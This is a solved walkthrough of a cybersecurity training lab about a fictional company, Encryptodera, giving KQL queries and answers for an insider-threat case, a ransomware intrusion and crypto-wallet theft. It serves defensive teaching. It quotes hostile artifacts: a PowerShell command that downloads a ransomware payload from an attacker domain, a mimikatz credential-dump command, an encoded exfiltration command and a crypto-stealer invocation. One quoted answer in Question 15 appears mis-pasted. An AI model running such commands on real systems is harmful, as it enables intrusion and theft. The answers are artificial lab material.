

# Inside Encryptodera: An Insider Threat Scenario

# About

Encryptodera is a hot new financial company specializing in fancy finance tech, like cryptocurrency, blockchain, and payment gateways. 💰

Despite healthy profit margins, Encryptodera leaders are looking to cut costs by laying off some of their workers. 😭 While nobody is happy about this, some employees are especially upset and have decided to cause some trouble.

In this module, you'll help Encryptodera get to the bottom of a dangerous disgruntled employee 😡, a rambunctious ransomware attack 🤑, and some shady dealings 🥷 happening right under their nose.

## What You’ll Learn

In this module, you'll learn:

- How to use Azure Data Explorer (ADX) and Kusto Query Language (KQL) to query logs
- How to decode and interpret encoded malicious commands
- The tactics, and behaviors used by insider threats, and the risks they pose
- How to detect and investigate ransomware attacks
- How attackers move laterally within a network
- How to detect anomalous activity in network flow/packet capture data

# Section 1: Offensive Odor

## Question 1

Now, we're getting started with the investigation!

A few employees have reported that Barry Shmelly has been behaving strangely. One employee showed you this tweet from Barry.


Normally Barry is a very cool, calm, and collected cat. But lately, here's been more of a snapping tiger. It might have something to do with the layoff rumors.

**What is Barry's role at the company?**

```sql
Employees
| where name has "Barry"
```

> `StackOverflow Copy Paster`
> 

```sql
"hire_date": 2021-01-01T00:00:00.000Z,
"name": Barry Shmelly,
"user_agent": Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; WOW64; Trident/6.0),
"ip_addr": 10.10.0.1,
"email_addr": barry_shmelly@encryptoderafinancial.com,
"company_domain": encryptoderafinancial.com,
"username": bashmelly,
"role": StackOverflow Copy Paster,
"hostname": IGOY-DESKTOP
```

## Question 2

You received an anymous tip from someone (who probably isn't a fan of Barry) that Barry has been slacking off at work. According to the tip, Barry sent the same "interesting" email to three other employees on January 16th.

Let's find those emails.

**What is Barry's email address?**

> `barry_shmelly@encryptoderafinancial.com`
> 

## Question 3

**What was the subject of the interesting email (the one on January 16th) that Barry sent?**

> **`I'm not coming in today. I'm sick of this place. We're all getting laid off anyway.`**
> 

```sql
Email
| where sender == "barry_shmelly@encryptoderafinancial.com"
| where timestamp between (datetime(2024-01-16T00:00:00.000Z)..datetime(2024-01-16T15:25:23.000Z))
```



## Question 4

It looks like the employees who received that email all had the same role.

**What was the role of the employees that received Barry's email?**

> `Social Media Manager`
> 

```sql
let mailaddress=Email
| where sender == "barry_shmelly@encryptoderafinancial.com"
| project timestamp, recipient, subject
| where subject == "I\'m not coming in today. I\'m sick of this place. We\'re all getting laid off anyway."
| distinct recipient;
Employees
| where email_addr in (mailaddress)
| project role
```

## Question 5

On January 18, Barry sent an email with the subject "YOU ARE A GREEDY PIG!!!! WHAT IS WRONG WITH YOU?????"

**What was the role of the recipient of that email?**

> `Chief Executive Officer`
> 

```sql
let mailaddress=Email
| where sender == "barry_shmelly@encryptoderafinancial.com"
| project timestamp, recipient, subject
| where subject == "YOU ARE A GREEDY PIG!!!! WHAT IS WRONG WITH YOU?????"
| distinct recipient;
Employees
| where email_addr in (mailaddress)
| distinct role
```

## Question 6

Barry's behavior and emails show that he is very unhappy. Let's investigate his activity.

**What's Barry's IP address? (Paste the full IP address )**

> `10.10.0.1`
> 

```sql
Employees
| where name == "Barry Shmelly"
| project ip_addr
```

## Question 7

Let's keep investigating Barry's activity.

**What was the complete URL that Barry was browsing on his computer regarding Cybersecurity Insiders on the afternoon of December 26th?(Paste the full url)**

> `https://www.cybersecurity-insiders.com/safe-ways-to-transfer-sensitive-files`
> 

```sql
.show tables // To look at available data tables

OutboundNetworkEvents
| where src_ip == "10.10.0.1"
| where url has "insiders"
| project timestamp, url
```

## Question 8

It seems like Barry is really interested in finding ways to transfer sensitive files. Interesting.

Let’s continue to look at Barry's browsing history. Looks like he's researching tools he might use to move sensitive data around.

**What website did he visit first on January 15th? (Paste the full URL)**

> `https://www.7-zip.org/a/7z2002-x64.exe`
> 

```sql
OutboundNetworkEvents
| where src_ip == "10.10.0.1"
| project timestamp, url
```


## Question 9

7Zip isn't the only tool Barry is researching to download sensitive files. It seems Barry is also curious about USB Flash drives.

**Could you provide the full URL for the website Barry searched for USB Flash Drives?**

> `https://www.wikihow.com/Use-a-USB-Flash-Drive`
> 


## Question 10

Tsk tsk, Barry is a very naughty employee. It looks like he has been downloading super sensitive files from Encryptodera for "safekeeping."

That's suspicious, that's weird.

First he went after information on Encryptodera to help give him an inside advantage on his stock trades later on.

**What "secret" document on business transactions did Barry download?**

> `SECRET_MergersAndAcquisitions_Strategy2025.docx`
> 

```sql
FileCreationEvents
| where username contains "bashmelly"
| where filename contains "secret"
| project timestamp, filename
```

## Question 11

Barry was still seething, Barry was still mad.

Barry wanted to know how much money those greedy executives had.

**What document (docx) did Barry download about salaries?**

> `ExecutiveSalaryNegotiations.docx`
> 

```sql
FileCreationEvents
| where username contains "bashmelly"
| where filename contains "salary"
| project timestamp, filename
```

## Question 12

Barry was on a roll. Barry had some rhythm.

Barry decided he needed the secrets behind Encrytodera's algorithms.

**What document (zip) did Barry download to get this?**

> `Encryptodera_Proprietary_Algorithms.zip`
> 

```sql
FileCreationEvents
| where username contains "bashmelly"
| where timestamp > datetime(1/15/2024, 11:59:42 PM)
| project timestamp, filename
```

## Question 13

Barry's in his groove, making these files move.

**Do you know the password he used to zip the files?**

> `securepass123`
> 

```sql
ProcessEvents
| where username == "bashmelly"
| where timestamp > datetime(1/15/2024, 11:59:42 PM)
| project timestamp, process_name, process_commandline
```


## Question 14

Barry was in the cloud, Barry flying high. It was not enough, Barry went and got his drive.

Barry stored a few extra sensitive files on his flash drive.

**What is the name of the drive on which Barry stored the final files?**

> `SchmellyDrive`
> 


## Question 15

Downloading confidential files, anomalous login times, and changes in behavior are indicative of an insider threat. From what we've discovered, Barry fits that profile.

Although it's too late to stop him, it's a good thing we were able to detect this activity so we can take appropriate measures.

**Type `gotheem` to take credit**

> `gotheem`
> 

# Section 2: Crypto Conquest

## Question 1

Some employees have said that they can't use their computers. One employee mentioned that they saw this suspicious file show up on their system.


**What is the filename of this note?**

> `YOU_GOT_CRYTOED_SO_GIMME_CRYPTO.txt`
> 

## Question 2

The file asks for payment and says all the files have been encrypted.

**What kind of attack is this?**

> `Ransomware`
> 

## Question 3

Ransomware can be very impactful and disruptive to businesses. We'll want to investigate this as quickly as possible and understand what happened.

**On how many machines was this .txt file seen?**

> `306`
> 

```sql
FileCreationEvents
| where filename == "YOU_GOT_CRYTOED_SO_GIMME_CRYPTO.txt"
| distinct hostname
| count
```

## Question 4

Wow, that's a lot of machines! Let's pick one to focus on first. It might make sense to focus on the very first victim machine.

To find the first time the file was seen, you can click on the `timestamp` column header and choose "Sort ascend". Or, you can add this KQL to order by timestamp:

> `2/17/2024, 2:34:54 AM`
> 

```sql
FileCreationEvents
| where filename == "YOU_GOT_CRYTOED_SO_GIMME_CRYPTO.txt"
| order by timestamp asc
```

## Question 5

We'll begin our investigation by looking at the earliest machine to have been encrypted.

**What is the hostname of the system where the ransom note was first seen?**

> `UL8R-MACHINE`
> 

## Question 6

Look closer at UL8R-MACHINE around the time when the ransom note was seen (2024-02-17).

**How many files were encrypted on this machine?**

> `50`
> 

```sql
FileCreationEvents
| where hostname == "UL8R-MACHINE" and filename contains "umadbro"
| count 
```

## Question 7

**What is the extension that was used on the encrypted files?**

> `umadbro`
> 

## Question 8

Well, those files can't have encrypted themselves. Let's look at the ProcessEvents logs to see if we can find any traces of that file extension on `UL8R-MACHINE`.

```sql
ProcessEvents
| where hostname == "UL8R-MACHINE"
| where process_commandline has "umadbro"
```

**What command was run that references the ransomware extension?**

> `start /b C:\\ProgramData\\files_go_byebye.exe -encrypt -target C:\\Users\\ -ext .umadbro`
> 

## Question 9

That command mentions an executable file called `files_go_byebye.exe`. Now, we need to find how that file got on this machine.

**When did `files_go_byebye.exe` appear on this machine?**

> `2/17/2024, 2:30:50 AM`
> 

```sql
FileCreationEvents
| where hostname == "UL8R-MACHINE" and filename == "files_go_byebye.exe"
```

## Question 10

Now, let's look for suspicious activity that happened around that time on this host.

You can use this query to conduct *temporal analysis* on this host, where we look for activity based on timestamps.

```sql
ProcessEvents
| where hostname == "UL8R-MACHINE"
| where timestamp between (datetime("2024-02-16") .. datetime("2024-02-18"))
```

**How many commands were run on UL8R-MACHINE during this timeframe?**

> `23`
> 

## Question 11

There's a base64 encoded powershell command run in this time window.

**What domain does the encoded PowerShell reference?**

> `notification-finance-services.com`
> 

```sql
❯ base64 -d base64.txt
powershell -c "Invoke-WebRequest -Uri http://notification-finance-services.com/files_go_byebye.exe -OutFile C:\\ProgramData\\files_go_byebye.exe"
```

## Question 12

Right before the base64-encoded PowerShell is run, another strange command runs.

**What command is run right before the base64-encoded PowerShell?**

> `gpupdate /force`
> 

## Question 13

`gpupdate /force` give us a clue that the attacker might have compromised the domain controller to deploy this ransomware.

This command forces an update of Group Policy Objects (GPOs), which are tools used legitimately to control settings in a network. An attacker with elevated permissions can create a malicious GPO to deploy malware to a large number of devices.

**How many devices ran the gpupdate /force command?**

> `306`
> 

```sql
ProcessEvents
| where process_commandline == "gpupdate /force"
| distinct hostname
| count
```

## Question 14

Before they can compromise the domain controller, the attackers must first find its location on the network. They will use Discovery techniques in order to learn more about the environment they're attacking. Attackers will often run Discovery commands when they first compromise a new machine.

One common discovery command is `systeminfo`, which gives an attacker information about the device they've compromised.

**How many machines at Encryptodera ran "systeminfo"?**

> `8`
> 

```sql
ProcessEvents
| where process_commandline == "systeminfo"
| distinct hostname
| count
```

## Question 15

**What was the timestamp for the first time the command was run?**

> `2/2/2024, 3:32:36 AM`
> 

```sql
ProcessEvents
| where process_commandline == "systeminfo"
| order by timestamp asc
```

## Question 16

**How many days elapsed between when the attackers ran discovery commands and when the ransomware attack started?**

> `15`
> 

```sql
//When attacker ran discovery commands
ProcessEvents
| where process_commandline == "systeminfo"
| order by timestamp asc
//2/2/2024, 3:32:36 AM

//Wehn ransomware started
ProcessEvents
| where process_commandline has "umadbro"
//2/17/2024, 2:30:16 AM
```

## Question 17

Wow, the threat actor was in the network for over two weeks before they started deploying ransomware!

Let's find out what else they did during that time.

**What is the hostname of the device on which the attackers first ran systeminfo?**

> `41QI-LAPTOP`
> 

```sql
ProcessEvents
| where process_commandline == "systeminfo"
| order by timestamp asc
```

## Question 18

Let's look closer at `41QI-LAPTOP` to see what else happened.

Shortly after running systeminfo, the actor used `nltest /dclist` to identify the company's domain controller. The domain controller is responsible for controlling authentication of users and computers in a network. The domain controller can be a valuable target for malicious actors because it can give them access to many devices and accounts in the network.

We also already know that the actor likely compromised the domain controller to push the malicious GPO.

**What was the full commandline used by the threat actor when running `nltest /dclist`?** (paste the full commandline)

> `cmd.exe /C nltest /dclist:encryptoderafinancial.com`
> 

```sql
ProcessEvents
| where hostname == "41QI-LAPTOP" and timestamp > datetime(2/2/2024, 3:32:36 AM) //Time after systeminfo command
| order by timestamp asc
| project timestamp, process_commandline
```

```sql
cmd.exe /C nltest /dclist:encryptoderafinancial.com
cmd.exe /C nltest /domain_trusts
cmd.exe /C nltest /domain_trusts /all_trusts
```

## Question 19

Your investigative partner mentions to you that they found a suspicious file on another system they were investigating. The file had a double extension- `.xlsx.exe`

A malicious actor might use double file extensions, like ".xlsx.exe", to trick a user into thinking they're opening a safe file, like an Excel document, when it's actually a harmful program. This technique works because some computers hide the last part of the file name, making the dangerous ".exe" part invisible.

**What is the full name of the .xlsx.exe file on 41QI-LAPTOP?**

> `Company_Financials_Q1_2024_Review.xlsx.exe`
> 

```sql
FileCreationEvents
| where filename has "xlsx.exe"
| where hostname == "41QI-LAPTOP"
| project filename
```

## Question 20

**What file shows up a few seconds after the .xlsx.exe file?**

> `screenconnect_client.exe`
> 

```sql
FileCreationEvents
| where hostname == "41QI-LAPTOP"
| project timestamp, filename
| where timestamp  > datetime(2024-02-01T08:50:12.000Z) // timestamp of .xlsx.exe file 
| order by timestamp asc
```

## Question 21

ScreenConnect is a legitimate remote access tool. Some threat actors use remote access tools, like ScreenConnect, to establish persistence and gain remote access to a network.

**How many devices does screenconnect_client.exe appear on?**

> `3`
> 

```sql
FileCreationEvents
| where filename == "screenconnect_client.exe"
| distinct hostname
```

## Question 22

It looks like the threat actor is using double-extension files to deploy ScreenConnect on a few different devices.

Let's go back to `Company_Financials_Q1_2024_Review.xlsx.exe` and see if we can figure out how it was delivered to the victim.

**Check the Email logs to see if the .xlsx.exe file was sent in a link. What email address was used to send this file?**

> `barry_shmelly@encryptoderafinancial.com`
> 

```sql
Email
| where link has "Company_Financials_Q1_2024_Review.xlsx.exe"
| project sender
```

## Question 23

Wait a second, that's the disgruntled employee we investigated earlier! Hmm.. that's strange. Let's take a closer look at all of Barry's emails.

Starting on 2024-02-01, it looks like Barry's account is used to send unusual emails.

**How many unusual emails were sent by Barry?**

> `9`
> 

```sql
Email
| where timestamp > datetime(2/1/2024, 12:00:00 AM)
| where sender == "barry_shmelly@encryptoderafinancial.com"
| project subject
```

```sql
Urgent: Network Security Vulnerability Detected
Urgent: Network Security Vulnerability Detected
Urgent: Network Security Vulnerability Detected
Land your biggest sale of the year with this new tool!!!! 🤑🤑🤑🤑
Land your biggest sale of the year with this new tool!!!! 🤑🤑🤑🤑
Land your biggest sale of the year with this new tool!!!! 🤑🤑🤑🤑
Critical: Network Security Vulnerability Detected
Critical: Network Security Vulnerability Detected
Critical: Network Security Vulnerability Detected
```

## Question 24

Taking good notes is an important part of investigating cyber intrusions. You may need to refer back to the users who received unusual emails from Barry later. Copy the recipients' email addresses and paste them somewhere safe. You can use a notepad, or add them in a comment in ADX!

To add a comment, you can add `//` to the start of the line, or highlight several lines and press CTRL+/ on your keyboard!

**Type `got it` once you've made a note of these recipients.**

> `got it`
> 

```sql
Email
| where timestamp > datetime(2/1/2024, 12:00:00 AM)
| where sender == "barry_shmelly@encryptoderafinancial.com"
| project recipient
```

```sql
// rose_briggs@encryptoderafinancial.com
// valerie_orozco@encryptoderafinancial.com
// david_tuitt@encryptoderafinancial.com
// marguerite_french@encryptoderafinancial.com
// sue_brady@encryptoderafinancial.com
// carl_johnston@encryptoderafinancial.com
// nancy_owens@encryptoderafinancial.com
// eulah_foster@encryptoderafinancial.com
// robin_kirby@encryptoderafinancial.com
```

## Question 25

According to his emails, Barry quit Encryptodera on January 18th. How could he have sent these emails on February 1st? Maybe an unauthorized party gained access to Barry's account and used it to send these emails.

Let's look at Barry's `AuthenticationEvents` to check for anything unusual.

**What IP was used to sign into Barry's account on February 1st?**

```sql
AuthenticationEvents
| where username == "bashmelly"
| sort by timestamp asc
| where timestamp > datetime(2024-01-31T09:41:02.000Z)
```

```sql
"timestamp": 2024-02-01T00:00:00.000Z,
"hostname": MAIL-SERVER01,
"src_ip": 143.38.175.105,
"user_agent": Mozilla/5.0 (Windows 95; nl-NL; rv:1.9.2.20) Gecko/2021-11-26 20:08:12 Firefox/3.6.20,
"username": bashmelly,
"result": Successful Login,
"password_hash": 228cea65b4f79bd8ba468eb99490defc,
"description": A user attempted to log in to their email
```

## Question 26

**How many other accounts did that IP log into?**

> `None`
> 

```sql
AuthenticationEvents
| where src_ip == "143.38.175.105"
```

## Question 27

143.38.175.105 is an external IP address. Since the attacker didn't log in to any other accounts externally, maybe they moved around within the network once they got inside. This is called **lateral movement**.

Let's see if we can find evidence of the threat actor moving laterally within the network.

We learned earlier that, after compromising a device, the attackers conduct discovery by running `systeminfo` and some other commands.

Let's take all the hosts where the threat actor ran `systeminfo` and look for common login patterns across those devices. You'll need to use a `let` statement so you can easily query data from all of these devices at once. Here's a template to help you with this:

```sql
let hosts = ProcessEvents
| where process_commandline has "systeminfo"
| distinct hostname;
AuthenticationEvents
| where hostname in (hosts)
| summarize dcount(hostname) by src_ip
| order by dcount_hostname desc
```

This tells us how many different devices each IP logged into.

**How many IPs logged in to all 8 devices where the attacker ran systeminfo?**

> `2`
> 

```sql
10.10.0.138	8
10.10.1.104	8
10.10.0.128	5
10.10.0.196	4
10.10.1.113	4
10.10.0.36	2
10.10.1.66	2
10.10.1.55	2
10.10.1.15	2
10.10.0.216	2
```

## Question 28

There are two IPs that logged in to all 8 devices where the threat actor conducted system discovery. Both of these IPs are private IPs, that means they are internal to the network. That's a good indication that the attacker likely moved laterally within the network.

Let's just focus on one of those IPs `10.10.0.138`

**What is the role of the employee who this IP address belongs to?**

> `System Administrator`
> 

```sql
Employees
| where ip_addr == "10.10.0.138"
| project role
```

## Question 29

**How many successful logins were made from this IP?**

> `554`
> 

```sql
AuthenticationEvents
| where src_ip == "10.10.0.138" 
| where result == "Successful Login"
| count 
```

## Question 30

One of the hosts logged into from this IP is especially concerning. This host is a server (and it's not the mail server)!

**What is the hostname of the server the attackers logged into?**

> `DOMAIN_CONTROLLER_SERVER`
> 

```sql
AuthenticationEvents
| where src_ip == "10.10.0.138" 
| where result == "Successful Login" and hostname has "server"
| where hostname != "MAIL-SERVER01"
```

```sql
"timestamp": 2024-02-02T03:32:53.000Z,
"hostname": DOMAIN_CONTROLLER_SERVER,
"src_ip": 10.10.0.138,
"user_agent": Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 10.0; WOW64; Trident/4.0),
"username": lihenry_domain_admin,
"result": Successful Login,
"password_hash": ce92b8ed5ca434102224a442119d3663,
"description": A user attempted to log into the host machine via Remote Destop Protocol (RDP). The logon was successful.

```

## Question 31

Oh no! The attackers logged into the domain controller 😭


In the next section, we'll investigate how they got there.

Type `f` in chat to pay respect and continue to the next section!

> `f`
> 

# Section 3: F In The Chat

## Question 1

Wipe away your tears. It's time to figure out how the threat actor compromised the domain controller.

**What username was used to log into the `DOMAIN_CONTROLLER_SERVER?`**

> `lihenry_domain_admin`
> 

## Question 2

It looks like the threat actor stole domain admin credentials, and used them to log into the domain controller! 😱

The threat actor must have stolen these credentials from somewhere else in the network.

**What laptop did the `lihenry_domain_admin` account sign into? (Enter the hostname)**

> `GJ95-LAPTOP`
> 

```sql
AuthenticationEvents
| where username == "lihenry_domain_admin"
```

```sql
"timestamp": 2024-01-09T13:58:39.000Z,
"hostname": GJ95-LAPTOP,
"src_ip": 10.10.0.4,
"user_agent": Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.96 Safari/537.36,
"username": lihenry_domain_admin,
"result": Successful Login,
"password_hash": 20d900cd15b2835f9f96e9d992422d82,
"description": A user attempted to log into the host machine via Remote Destop Protocol (RDP)

```

## Question 3

Let's see if we can find evidence of the threat actor stealing the domain admin credentials from `GJ95-LAPTOP`.

Mimikatz is a popular credential dumping tool used by malicious actors.

**What is the MITRE ATT&CK ID for mimikatz?**

> `S0002`
> 


## Question 4

Let's check to see if the threat actor ran mimikatz on `GJ95-LAPTOP`.

**Did the threat actor run mimikatz on this device? If so, enter the command line the attacker ran. If not, enter `no`.**

> `totally_not_mimikatz.exe "sekurlsa::logonpasswords"`
> 

## Question 5

That's not great. The attackers dumped credentials on this device.

**Who does this device belong to? (Enter the employee's name)**

> `Valerie Orozco`
> 

```sql
Employees
| where hostname == "GJ95-LAPTOP"
```

```sql
"hire_date": 2021-11-23T00:00:00.000Z,
"name": Valerie Orozco,
"user_agent": Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0,
"ip_addr": 10.10.0.18,
"email_addr": valerie_orozco@encryptoderafinancial.com,
"company_domain": encryptoderafinancial.com,
"username": vaorozco,
"role": System Administrator,
"hostname": GJ95-LAPTOP

```

## Question 6

Remember when we said good notes are important? Go back and check those notes now!

**Was Valerie Orozco targeted in the phishing emails sent from Barry Shmelly?**

> `Yes`
> 

## Question 7

**What is the name of the file that was sent to Valerie in the phishing email?**

> `Employee_Contact_List_Updated_March_2024.docx.exe`
> 

```sql
Email
| where sender == "barry_shmelly@encryptoderafinancial.com"
| where recipient == "valerie_orozco@encryptoderafinancial.com"
```

## Question 8

**Did Valerie click the link? If so, enter the timestamp when she clicked the link. If not, enter 'no'**

> `no`
> 

```sql
OutboundNetworkEvents
| where url == "http://update-finance-security.biz/public/images/files/Employee_Contact_List_Updated_March_2024.docx.exe"
```

## Question 9

Hmm.. so the threat actor didn't successfully phish Valerie. But we know the actor dumped credentials on her machine.

Now we have to find out how the actor got onto Valerie's machine.

**How many different user accounts logged into Valerie's machine?**

> `3`
> 

```sql
AuthenticationEvents
| where hostname == "GJ95-LAPTOP"
| where username != "vaorozco"
| where result == "Successful Login"
| distinct username
```

## Question 10

Of the three accounts that logged into Valerie's account, we've already seen two: `vaorozco` (Valerie's account) and (`lihenry_domain_admin`), the account the threat actor stole from Valerie's machine.

The third account, `systadmi_local_admin`, is new! Let's look closer at that one.

**How many unique hosts did this user account attempt to log into?**

> `10`
> 

```sql
AuthenticationEvents
| where username == "systadmi_local_admin"
| distinct hostname
```

## Question 11

It looks like the account `systadmi_local_admin` was compromised. Let's find out how those credentials were stolen!

Run the query below… It's a little more complicated than you're used to. That's okay! Sometimes analysts don't write queries themselves, but they instead use queries someone else wrote for them!

```sql
let hosts = FileCreationEvents
| where filename has "screenconnect"
| distinct hostname;
AuthenticationEvents
| where hostname in (hosts)
| where username has "systadmi"
| where result has "Successful"
| join (
    Employees 
    | project ip_addr,role,email_addr,name
) on $left.src_ip==$right.ip_addr
| project SourceIpName=name, a="who is a", SourceIpUserRole=role, b="logged onto",hostname, c="using", username, d="at",timestamp
```

The `systadmi_local_admin` account should only be used to log in to devices that belong to IT-related users.

**Which user NOT in an IT role was improperly using the `systadmi_local_admin` credentials? (This is likely a sign of compromise)**

> `Robin Kirby`
> 

```sql
"SourceIpName": Robin Kirby,
"a": who is a,
"SourceIpUserRole": Risk Analyst,
"b": logged onto,
"hostname": QW91-MACHINE,
"c": using,
"username": systadmi_local_admin,
"d": at,
"timestamp": 2024-02-01T07:46:28.000Z
```

## Question 12

**When was Robin phished by Barry Shmelly's account?**

> `2/1/2024, 3:59:30 AM`
> 

```sql
Email
| where sender == "barry_shmelly@encryptoderafinancial.com"
| where recipient == "robin_kirby@encryptoderafinancial.com"
```

## Question 13

So Robin WAS phished by Barry Shmelly's account!

Let's recap. A threat actor 😈 compromised Barry Shmelly's account and logged into it from `143.38.175.105`. Once the actor gained access to Barry's account, they used it to target `9` employees in a phishing 🎣 attack.

One of the users compromised by this phish was Robin Kirby. The threat actor used stolen local admin credentials 🔑 to move laterally and login from Robin Kirby's machine to Valerie Orozco's machine!

Once they accessed Valerie's machine, they dumped the domain admin credentials, then logged in to the domain controller 👑. They used their access to the domain controller to deploy ransomware to 306 machines at Encryptodera.

Congrats! You solved the mystery of the ransomware attack! 👏

Before we leave, let's see if there's any other funny business happening around here…

**Type `letsgo` to move on!**

> `letsgo`
> 

# Section 4: A Network Mystery

## Question 1

**⚠️ This section is a little bit more of a challenge. You got this! 💪**

Encrytodera has decided to switch from Email to Tiktok as their primary work communication platform. That's right, all communications in the future of Encryptodera will be recorded in 12 second videos - complete with fun dances 💃🏻.

In order to make sure there is enough bandwidth for this transition, the network administrator was tasked to do some research to see how much more traffic the network could handle without failing (tiktoks take a lot of bandwith you know!).

During this debugging process, he noticed an unusually large amount of data being sent to one IP address on February 5th

**Which IP address received the largest amount of data on Feb 5th?**

> `182.56.23.121`
> 

```sql
NetworkFlow
| where timestamp between (datetime(2/5/2024, 12:00:00 AM) .. datetime(2/5/2024, 11:59:30 PM) )
| order by bytes desc 
```

```sql
"timestamp": 2024-02-05T13:28:33.000Z,
"src_ip": 10.10.0.2,
"src_port": 12130,
"dest_ip": 182.56.23.121,
"dest_port": 21,
"protocol": TCP,
"bytes": 12716

```

## Question 2

**How many bytes of data were sent to that IP on the 5th?**

> `12716`
> 

## Question 3

Perhaps if we eliminated this data flow, we could get the network to perform better. This would allow all the tiktoks to flow much faster!

First, we should make sure the traffic to that IP isn't business critical.

**When was data first sent to this IP? (paste the full timestamp)**

> `1/21/2024, 1:28:33 PM`
> 

```sql
NetworkFlow
| where dest_ip == "182.56.23.121"
| order by timestamp asc 
```

## Question 4

Wow so we've been sending data to this IP for a few weeks now.

**On how many distinct days have we sent data to this IP?**

> `27`
> 

```sql
NetworkFlow
| where dest_ip == "182.56.23.121"
| order by timestamp asc
| summarize 
    MinTS = min(timestamp),
    MAXTS = max(timestamp),
    Duration = max(timestamp) - min(timestamp)
| project MinTS, MAXTS, Duration
```

```sql
1/21/2024, 1:28:33 PM	2/16/2024, 1:28:33 PM	26.00:00:00

// 27 days because we need to include 21th of January as well.
```

## Question 5

That amount of data being sent is definitely sus.

**What service is used for the port to which this data is being transferred?**

> `FTP`
> 

```sql
NetworkFlow
| where dest_ip == "182.56.23.121"
| distinct dest_port

//21
```

## Question 6

**What is the total amount of data transferred to this IP address?**

> `208,138`
> 

```sql
NetworkFlow
| where dest_ip == "182.56.23.121"
| summarize total = sum(bytes)
```

## Question 7

It's possible that this could be a common or legitimate service. Let's attempt to validate this hypothesis.

**How many distinct employees have sent data to this IP address?**

> `1`
> 

```sql
NetworkFlow
| where dest_ip == "182.56.23.121"
| distinct src_ip

//10.10.0.2
```

## Question 8

Ok that's a major clue!

**Whose name is linked to that IP address? Provide the employee's name.**

> Jane Smith
> 

```sql
Employees
| where ip_addr == "10.10.0.2"
```

```sql
"hire_date": 2024-01-05T00:00:00.000Z,
"name": Jane Smith,
"user_agent": Mozilla/5.0 (Windows NT 6.2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.117 Safari/537.36,
"ip_addr": 10.10.0.2,
"email_addr": jane_smith@encryptoderafinancial.com,
"company_domain": encryptoderafinancial.com,
"username": jasmith,
"role": Cryto Bruh (Blockchain Contractor),
"hostname": GOTI-LAPTOP
```

## Question 9

Oooh tea! We know the employees name.

**What is that employee's role?**

> `Cryto Bruh (Blockchain Contractor)`
> 

## Question 10

A 'Crypto Bruh' is a new role that Encryptodera created to engage with community members across various platforms, including social media, forums, and other online channels. It's a bit unusual for a Crypto Bruh to be sending out this much data.

Management has decided it would be prudent to initiate some insider threat monitoring on Jane.

Let's look for any suspicious browsing activity from Jane to Encryptodera's website. Hmmm… Jane is mighty nosy!

**We see her looking for the location of the company's __ __ __ __ (4 words)**

> `cold storage crypto wallets`
> 

```sql
InboundNetworkEvents
| where src_ip == "10.10.0.2"
| where url contains "encryptodera"
| where url contains "search"
| project url
```


## Question 11

Ok something is amiss. Something is afoot!

Let's check Jane's emails to see how she plans to steal the loot!

**Who was Jane having a suspicious conversation with? (email address)**

> `elboss@westealurcrypto.com`
> 

```sql
Email
| where sender == "jane_smith@encryptoderafinancial.com" and recipient !endswith "encryptoderafinancial.com"
| project recipient, subject
```


## Question 12

What a plan they've hatched! And they almost got away with it.

**What IP address did the boss man provide to help with smuggling the data?**

> `182.56.23.121`
> 


## Question 13

Jane has a plan, oh so grand, to steal all the crypto in the land.

But she can't quite do it with an empty hand.

**What is the name of the data exfil tool Jane downloads to help with her operation?**

> `ftp_client.exe`
> 

```sql
FileCreationEvents
| where username == "jasmith" 
| distinct filename
```


## Question 14

**What is the name of the crypto theft tool Jane downloads to help with her operation?**

> `crypto_stealer.exe`
> 

## Question 15

Now that Jane has the tool, she has us looking like fools.

Jane executes a command to stage the data she will steal.

**To what path does Jane point her data exfiltration tool?**

> `C:\\Users\\jasmith\\ToTheMoon\\`
> 

```sql
ProcessEvents
| where username == "jasmith" 
| where process_name == "crypto_stealer.exe"
```

```sql
❯ base64 -d base64.txt

powershell -c "Invoke-WebRequest -Uri http://notification-finance-services.com/files_go_byebye.exe -OutFile C:\\ProgramData\\files_go_byebye.exe"crypto_stealer.exe --daily --input \\\\NetworkShare\\critical_infrastructure\\Crypto_Wallet_Storage_Locations\\ --output C:\\Users\\jasmith\\ToTheMoon\\
```

## Question 16

In her final act, Jane sends all the secrets out the door.

**At what tempo does she set the tool to run? (one word)**

> `daily`
> 

## Question 17

**What password does Jane use for the tool?**

> `Ugot2muchCRYTOw3llt4k3it0FFurH4ND5`
> 

```sql
ProcessEvents
| where username == "jasmith" and process_commandline contains "powershell"
| project process_commandline
```

```powershell
C:\Windows\System32\powershell.exe -Nop -ExecutionPolicy bypass -enc KCAnXFxub29NZWhUb1RcXGh0aW1zYWpcXHNyZXNVXFw6QyBodGFwLS0gMTIxLjMyLjY1LjI4MSBwaS0tIDEyIHRyb3AtLSAibW9jLmxhaWNuYW5pZmFyZWRvdHB5cmNuZSIgbWl0Y2l2LS0gNURONEhydUZGMHRpM2s0dGxsM3dPVFlSQ2hjdW0ydG9nVSBzc2FwLS0gaHRpbXNhaiByZXN1LS0geWxpYWQtLSBleGUudG5laWxjX3B0ZicgLXNwbGl0ICcnIHwgJXskX1swXX0pIC1qb2luICcn
```

[https://app.notion.com](https://app.notion.com)
